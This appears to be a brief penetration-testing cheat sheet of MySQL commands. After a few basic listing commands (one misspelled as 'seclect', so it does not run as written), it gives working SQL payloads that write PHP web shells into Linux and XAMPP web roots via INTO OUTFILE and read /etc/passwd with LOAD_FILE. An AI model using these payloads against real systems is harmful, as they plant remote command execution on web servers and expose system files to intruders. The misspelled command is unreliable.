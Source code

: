
### View Databases

```bash
show databases;
```

### Use Database

```bash
use <database>;
```

### View Tables

```bash
show tables;
```

### View Contents of Table

```bash
seclect * from <table_name>;
```

### Write file to system

```bash
SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';

SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\xampp\\htdocs\\cmd.php";
```

### Read file on system

```bash
SELECT LOAD_FILE("/etc/passwd");
SELECT LOAD_FILE("C:\\xampp\\htdocs\\cmd.php");
```